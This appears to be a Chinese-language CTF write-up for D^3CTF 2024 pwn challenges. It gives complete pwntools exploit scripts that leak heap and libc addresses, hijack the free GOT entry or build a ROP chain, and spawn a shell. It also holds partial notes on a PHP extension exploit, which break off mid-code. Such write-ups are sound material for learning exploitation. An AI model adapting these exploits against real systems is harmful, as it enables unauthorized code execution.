# 2024-04-29-D^3CTF 2024

## 比赛介绍

The 5th D^3CTF event --  **&quot;Lingwu Cup&quot; D^3CTF** jointly presented by  **@Vidar**,  **@CNSS**,  **@L-Team** and **Lingwu Laboratories** -- is coming!

We organizers have hosted HCTF and LCTF for years. In 2019 we decided to co-host this brand new CTF game, D<sup>3CTF. &quot;D</sup>3" stands for "the cube of Dian", or "the cube of 'electronic'" in Chinese, as three of the organizing teams come from three "University of Electronic" in China (HDU, UESTC and Xidian, respectively). Lingwu Laboratories, an integral member of D^3 Team, is a security research lab under LWSec (凌武科技). It specializes on Internet-of-Vehicles (IoV) security, industrial control systems (ICS) security, and contest research.

Have fun, and happy hacking!

‍

‍

‍

‍

## pwn-d3note

### 解题思路

- 保护

```python
➜  bin checksec ./pwn
[*] '/mnt/hgfs/Downloads/D3/note/bin/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
```

- libc的版是 `GNU C Library (Debian GLIBC 2.37-15) stable release version 2.37.`

- 先简单看一下代码, 其实大概可以知道 漏洞点 ： `没有限制 idx`

```c
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-1Ch]
  int v4; // [rsp+8h] [rbp-18h]
  int v5; // [rsp+8h] [rbp-18h]
  int v6; // [rsp+8h] [rbp-18h]
  int idx; // [rsp+8h] [rbp-18h]
  int size; // [rsp+Ch] [rbp-14h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  while ( 1 )                                   // rm
  {
    while ( 1 )
    {
      v3 = get_int();
      if ( v3 != 0x1919 )
        break;
      v6 = get_int();
      free(heap_list[2 * v6 + 1]);
      heap_list[2 * v6 + 1] = 0LL;
      LODWORD(heap_list[2 * v6]) = 0;
    }
    if ( v3 > 0x1919 )
    {
LABEL_13:
      puts("Invalid choice");
    }
    else if ( v3 == 0x810 )                     //  0x810 edit
    {
      idx = get_int();
      get_input((__int64)heap_list[2 * idx + 1], (unsigned int)heap_list[2 * idx]);
    }
    else
    {
      if ( v3 > 0x810 )
        goto LABEL_13;
      if ( v3 == 0x114 )                        // 0x114 add
      {
        v4 = get_int();
        size = get_int();
        LODWORD(heap_list[2 * v4]) = size;
        heap_list[2 * v4 + 1] = (int *)malloc(size);
        get_input((__int64)heap_list[2 * v4 + 1], size);
      }
      else
      {
        if ( v3 != 0x514 )                      // 0x514 show
          goto LABEL_13;
        v5 = get_int();
        puts((const char *)heap_list[2 * v5 + 1]);
      }
    }
  }
}
```

‍

- 我的思路大概就是

> 申请大堆块 free 后进到 unsortedbin，然后再填一个小的，泄露libc的地址，然后free 小堆块泄露 泄露 heap 地址
>
> 然后再堆块上写 free got 表的地址，利用 heap_list的地址 和 heap 的偏移，可以得知 idx,
>
> 然后直接可以edit free_got 修改成system 地址

‍

‍

### exploit

```python
from pwn import *
import sys
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote('47.103.122.127',32051)
    elif args.AWD:
        # python3 exp.py AWD 1.1.1.1 PORT
        IP = str(sys.argv[1])
        PORT = int(sys.argv[2])
        return remote(IP,PORT)
    else:
        return process([binary] + argv, *a, **kw)

binary = './pwn'
libelf = './libc.so.6'

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
b *0x0401215
#continue
'''.format(**locals())

io = start(binary)


def add(size, idx, text):
    sl('276')
    sleep(0.1)
    sl(str(idx))
    sleep(0.1)
    sl(str(size))
    sleep(0.1)
    s(text)

def show(idx):
    sleep(0.1)
    sl(str(0x514))
    sleep(0.1)
    sl(str(idx))

def rm(idx):
    sleep(0.1)
    sl(str(0x1919))
    sleep(0.1)
    sl(str(idx))


def edit(idx,text):
    sleep(0.1)
    sl(str(0x810))
    sleep(0.1)
    sl(str(idx))
    sleep(0.1)
    s(text)


add(0x450, 1, 'B\n')

add(0x1, 0, 'A')
rm(0)
add(0, 0, '')
show(0)
key = uu64(r(2))
heap = key << 0xC
rm(1)


add(0x8, 0, 'AAAAAAAA')

show(0)
ru('A'*8)
libc_base = uu64(r(6)) - 1917152
lss('heap')
lss('libc_base')

pay = p64(elf.got['free']) * 8


add(len(pay), 2,pay)
system = libc_base + libc.sym['system']
offset = heap + 0x2c0
offset = (offset - 0x4040A0) // 8 //2

lss('offset')
#gdb.attach(io,'b *0x0401422')
edit(offset,p64(system)+b'\n')
add(0x123, 4, '/bin/sh\x00\n')
rm(4)

#lss('offset')

itr()


```

‍

- 刚更新的 pwndbg 非常智能，爽湿了



‍

做的也是比较顺手，趁着其他大佬没反应过来拿了三血

‍

‍

‍

‍

## pwn-d3note_plus

‍



‍

‍

‍

- 泄露  elf 的地址，然后基本就好做了





‍

‍

### exploit

- 没难度

```python
from pwn import *
import sys
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote('47.103.122.127',32051)
    elif args.AWD:
        # python3 exp.py AWD 1.1.1.1 PORT
        IP = str(sys.argv[1])
        PORT = int(sys.argv[2])
        return remote(IP,PORT)
    else:
        return process([binary] + argv, *a, **kw)

binary = './d3note_plus'
libelf = './libc.so.6'

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
b *0x0401215
#continue
'''.format(**locals())

io = start(binary)


def add(size, idx, text):
    sl('276')
    sleep(0.1)
    sl(str(idx))
    sleep(0.1)
    sl(str(size))
    sleep(0.1)
    s(text)

def show(idx):
    sleep(0.1)
    sl(str(0x514))
    sleep(0.1)
    sl(str(idx))

def rm(idx):
    sleep(0.1)
    sl(str(0x1919))
    sleep(0.1)
    sl(str(idx))


def edit(idx,text):
    sleep(0.1)
    sl(str(0x810))
    sleep(0.1)
    sl(str(idx))
    sleep(0.1)
    s(text)

add(0x450, 1, 'B\n')
add(0x1, 0, 'A')
rm(0)
add(0, 0, '')
show(0)
key = uu64(r(5))
heap = key << 0xC
ru('\n')

show(-6)
elf_base = uu64(r(6)) - 0x4008
ru('\n')


rm(1)
add(0x1, 1, 'A')
show(1)
libc_base = uu64(r(6)) - 1916993
ru('\n')

libc.address = libc_base
environ = libc.sym['environ']

heap_list = elf_base + 0x4060


add(0x200, 3, p64(environ)*2 + b'\n')


ptr = heap + 704


offset = (ptr - heap_list) // 2 // 8


show(offset)
stack = uu64(r(6)) - 352
#ru('\n')


edit(3,p64(stack)*2 + b'\n')


#gdb.attach(io)

rop = ROP(libc)
rdi = rop.find_gadget(['pop rdi','ret'])[0]
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh'))

pay = flat([
    rdi+1,
    rdi,
    bin_sh,
    system
    ])
edit(offset,pay + b'\n')


lss('key')
lss('heap')
lss('elf_base')
lss('libc_base')
lss('ptr')
itr()
```

‍

## pwn-PwnShell(第一次见，没做出来)

‍

- 第一次见 php so 文件 的漏洞利用，学~

phppwn

### 调试和坑点

‍

- 题目附件情况



‍

看样子预期 需要通过 执行 `readflag` 去读取flag.txt

- ​`index.php` 就是一个文件上传，可以把 php文件 上传到网站根目录，然后访问去执行
- php 的 函数基本上不能用，在php.ini可以看到



‍

- 然后是 vuln.so,



‍

- 先简单看下docker 环境

‍

```python
docker build -t pwn_php_so .
docker run --name up_pwn_php_so -itd pwn_php_so 
```

- docker 启动后可以直接在本机 进程里找到 pid



- 可以看到 vuln.so 这就是我们主要分析的文件



‍

‍

- 调试方法

‍

可以看到我们已经gdb 停止程序运行了，但是 仍然可以正常访问web服务，想断点的话可能就挺不住了



‍

‍

### 导出表函数名

‍



	

### 调试参数(主要分析参数数量和类型)

- 静态分析so的函数传参，静态分析很难看出，需要动态调试去判读参的数量

 `zend_parse_parameters`

- 数字类型判断

```php
4 int
6 strings
7 arrary
```

- add



- rm



- edit



- show



‍

### zend_parse_parameters

> https://www.bookstack.cn/read/phpbook/7.1.md

​`最简单的获取函数调用者传递过来的参数便是使用zend_parse_parameters()函数。zend_parse_parameters()函数的前几个参数我们直接用内核里宏来生成便可以了，形式为：ZEND_NUM_ARGS() TSRMLS_CC，注意两者之间有个空格，但是没有逗号。从名字可以看出，ZEND_NUM_ARGS()代表着参数的个数。紧接着需要传递给zend_parse_parameters()函数的参数是一个用于格式化的字符串，就像printf的第一个参数一样。下面表示了最常用的几个符号。`

```php
type_spec是格式化字符串，其常见的含义如下：
参数   代表着的类型
b    Boolean
l    Integer 整型
d    Floating point 浮点型
s    String 字符串
r    Resource 资源
a    Array 数组
o    Object instance 对象
O    Object instance of a specified type 特定类型的对象
z    Non-specific zval 任意类型～
Z    zval**类型
f    表示函数、方法名称，PHP5.1里貌似木有... ...


b    zend_bool
l    long
d    double
s    char*, int 前者接收指针，后者接收长度
r    zval*
a    zval*
o    zval*
O    zval*, zend_class_entry*
z    zval*
Z    zval**
```

- 大概的传参

```python
	size_t zend_parse_parameters(long int *a1,char *a2,...)
	
```

‍

### 官方Wp-很值得学习

```php
<?php
$heap_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}

function p64($addr){
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
